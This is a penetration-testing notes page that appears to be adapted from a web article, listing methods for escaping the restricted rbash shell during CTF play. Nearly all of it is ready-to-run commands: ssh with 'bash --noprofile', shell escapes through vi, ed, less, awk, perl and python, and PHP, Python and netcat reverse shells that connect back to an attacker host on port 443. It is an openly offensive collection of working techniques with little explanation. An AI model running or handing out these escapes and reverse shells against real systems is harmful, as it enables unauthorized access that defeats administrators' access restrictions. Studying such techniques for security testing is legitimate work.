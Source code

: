 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/

#### rbash escape through SSH
Our First Method is Escaping the rbash shell through ssh many ctf playing times we have ssh username and password but our shell is restricted with rbash. we can easily bypass this rbash shell using extra argument bash noprofile

```bash - kali
ssh $USER@$TARGET
```

```bash - target
echo $SHELL
```

```bash - target
cd ../
```

we can bypass the rbash shell using the no-profile extra parameter

```bash - kali
ssh $USER@$TARGET -t "bash --noprofile"
```

```bash - target
cd ../
```

#### rbash escape through editors
Linux has many editors we can bypass the rbash using these editor commands

#### bypass rbash using vi editor
First, we open the vi editor then we used: set option and we create a shell name variable and in this variable, we set our bash environment location. run the command one by one

run the vi command and our vi editor is open using the set mode we can bypass the restricted rbash shell

```bash - target
vi
```

```bash - taret
:set shell=/bin/bash
```

```bash - target
:shell
```
  
#### escaping rbash – ed editor
ed is another Linux editor simple we can run ed edit mode without selecting any file then we type bash path

```bash - target
cd /home
```

```bash - target
echo $SHELL
```

```bash - target
ed
```

```bash - target
!'/bin/bash'
```

```bash - target
pwd
```

#### escape rbash through reverse shell
We can bypass the rbash shell through different Linux reverse shell **Note:** before executing the reverse shell we need to start a net-cat listener.

##### rbash shell bypass – php
```bash - target
cd /
```

```bash - target
echo $SHELL
```

we open two ssh connections our cd command is currently not working before execute the reverse shell command firstly we start our netcat listener. in this case, we are using the same machine you can use your localhost IP for reverse connection

[[rlwrap]]

```bash - target
php -r '$sock=fsockopen("$KALI",443);exec("/bin/bash -i <&3 >&3 2>&3");'
```

After executing the reverse shell command we got the reverse connection target machine. and we successfully bypass the restricted rbash shell.

```bash - target
echo $SHELL
```

```bash - target
cd /
```

```bash - target
pwd
```

#### rbash shell bypass – python
this is another way to bypass the rbash shell using python reverse shell remember before executing the reverse shell command you need to start your netcat listener.

```bash - target
cd /
```

```bash - target
echo $SHELL
```

[[rlwrap]]

```bash - target
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

```bash - target
cd /
```

```bash - target
pwd
```

#### rbash shell bypass – netcat
```bash - target
cd /home
```

```bash - target
echo $SHELL
```

[[rlwrap]]

```bash - target
nc  $KALI 443 -e /bin/bash
```

#### rbash escape with python
If the target system already installed any python version we run these commands for bypassing the rbash shell

```bash - target
echo $SHELL
```

```bash - target
cd ../
```

```bash - target
python -c 'import os; os.system("/bin/bash");'
```

```bash - target
python3 -c 'import os; os.system("/bin/bash");'
```

and again we escape the rbash shell using python command executing -c argument.

```bash - target
cd /home
```

```bash - target
cd ../
```

### rbash escape **Awk**
```bash - target
cd /home
```

```bash - target
echo $SHELL
```

```bash - target
awk 'BEGIN {system("/bin/bash")}' cd /home cd ~ pwd
```

```bash - target
awk 'BEGIN {system("/bin/bash")}'
```

```bash - target
cd /home
```

```bash - target
cd ~
```

```bash - target
pwd
```

### rbash escape perl
```bash - target
cd /
```

```bash - target
echo $SHELL
```

```bash - target
perl -e 'system("/bin/bash");'
```

```bash - target
cd /
```

```bash - target
cd /home
```

### rbash bypass through binary file
```bash - target
cd /
```

```bash - target
echo $SHELL
```

```bash - target
less anyfile.txt
```

```bash - target
!'bash'
```

```bash - target
cd /
```

```bash - target
cd /home
```

```bash - target
pwd
```

```bash - target
echo $SHELL
```
